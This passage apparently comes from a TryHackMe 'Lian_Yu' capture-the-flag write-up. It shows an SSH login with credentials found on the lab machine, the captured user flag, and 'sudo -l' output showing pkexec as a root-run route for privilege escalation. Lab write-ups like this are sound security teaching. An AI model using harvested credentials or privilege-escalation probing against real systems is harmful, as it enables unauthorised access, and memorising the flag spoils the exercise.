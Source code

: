 This latest string may be the SSH password and has been found in `shado`

## #6 - user.txt

Let's try to connect with `slade:M3tahuman` over SSH (slade was found earlier, on the FTP server)

~~~
$ ssh slade@10.10.97.18
slade@10.10.97.18's password: 
			      Way To SSH...
			  Loading.........Done.. 
		   Connecting To Lian_Yu  Happy Hacking

██╗    ██╗███████╗██╗      ██████╗ ██████╗ ███╗   ███╗███████╗██████╗ 
██║    ██║██╔════╝██║     ██╔════╝██╔═══██╗████╗ ████║██╔════╝╚════██╗
██║ █╗ ██║█████╗  ██║     ██║     ██║   ██║██╔████╔██║█████╗   █████╔╝
██║███╗██║██╔══╝  ██║     ██║     ██║   ██║██║╚██╔╝██║██╔══╝  ██╔═══╝ 
╚███╔███╔╝███████╗███████╗╚██████╗╚██████╔╝██║ ╚═╝ ██║███████╗███████╗
 ╚══╝╚══╝ ╚══════╝╚══════╝ ╚═════╝ ╚═════╝ ╚═╝     ╚═╝╚══════╝╚══════╝


	██╗     ██╗ █████╗ ███╗   ██╗     ██╗   ██╗██╗   ██╗
	██║     ██║██╔══██╗████╗  ██║     ╚██╗ ██╔╝██║   ██║
	██║     ██║███████║██╔██╗ ██║      ╚████╔╝ ██║   ██║
	██║     ██║██╔══██║██║╚██╗██║       ╚██╔╝  ██║   ██║
	███████╗██║██║  ██║██║ ╚████║███████╗██║   ╚██████╔╝
	╚══════╝╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚══════╝╚═╝    ╚═════╝  #

slade@LianYu:~$ pwd
/home/slade
slade@LianYu:~$ cat user.txt 
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak

slade@LianYu:~$ 
~~~

User flag: `THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}`

## #7 - root.txt

One of the possible ways to escalate privileges is to check the sudo privileges:

~~~
slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
~~~
